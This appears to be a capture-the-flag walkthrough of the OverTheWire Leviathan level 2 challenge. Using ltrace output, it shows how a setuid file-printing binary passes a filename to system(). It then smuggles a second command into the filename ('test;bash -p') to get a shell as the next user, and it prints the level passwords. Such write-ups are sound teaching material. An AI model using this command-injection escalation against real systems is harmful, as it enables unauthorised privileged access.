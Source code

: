 **`leviathan2@gibson:~$ ls`**  
*`printfile`*  

Another setuid binary. 

**`leviathan2@gibson:~$ ./printfile`**  
```
*** File Printer ***
Usage: ./printfile filename
```
**`leviathan2@gibson:~$ ls -la`**  
```
total 36
drwxr-xr-x  2 root       root        4096 Dec  3 08:13 .
drwxr-xr-x 83 root       root        4096 Dec  3 08:14 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Dec  3 08:13 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```
**`leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3`**   
*`You cant have that file...`*  

Well that's odd; it won't let us print the contents of the leviathan3 password file, despite the binary having ownership permissions of `leviathan3`. Let's see what's going on under the hood:

**`leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3`**  
```
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                                                                        = -1
puts("You cant have that file..."You cant have that file...
)                                                                                                                 = 27
+++ exited (status 1) +++
```

Strange; it doesn't seem to be calling any libraries, rather just automatically printing that I don't have access. It doesn't make sense that this would be the case for all files, otherwise the setuid binary would essentially be useless. Let's try with another file:

**`leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2`**  
```
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                                                        = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                                              = 39
geteuid()                                                                                                                                          = 12002
geteuid()                                                                                                                                          = 12002
setreuid(12002, 12002)                                                                                                                             = 0
system("/bin/cat /etc/leviathan_pass/lev"...mEh5PNl10e
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
+++ exited (status 0) +++
```

Here we go. There are several things going on here:
* The `access()` function checks whether we have read permissions to the file referenced in our setuid binary execution argument
* A string is built, using `snprintf()`, concatenating `/bin/cat` with the filename in question
* The `setreuid()` function sets both the real and effective UID to leviathan3
* The `system()` function calls the concatenated string built earlier and executes

As stated above, any "filename" (that we have read permissions for) that is passed to the concatenated string will be executed by `system()`, AFTER `setreuid()` sets the real/effective UID to leviathan3. We can therefore fool the `system()` function into accepting a filename with a command appended to it, since there doesn't seem to be any proper input validation in place:

**`leviathan2@gibson:~$ mkdir /tmp/rajh`**  
**`leviathan2@gibson:~$ touch "/tmp/rajh/test;bash -p"`**  
**`leviathan2@gibson:~$ ./printfile "/tmp/rajh/test;bash -p"`**  
*`/bin/cat: /tmp/rajh/test: No such file or directory`*  
*`leviathan3@gibson:~$`*  

So rather than `./printfile` interpreting my referenced file as one file, it interpreted it as a file AND a command; it first executed `/bin/cat /tmp/rajh/test` (which didn't exist), and then executed `bash -p`, which spawned a shell as leviathan3.

**`leviathan3@gibson:~$ cat /etc/leviathan_pass/leviathan3`**  
*`Q0G8j4sakn`*  
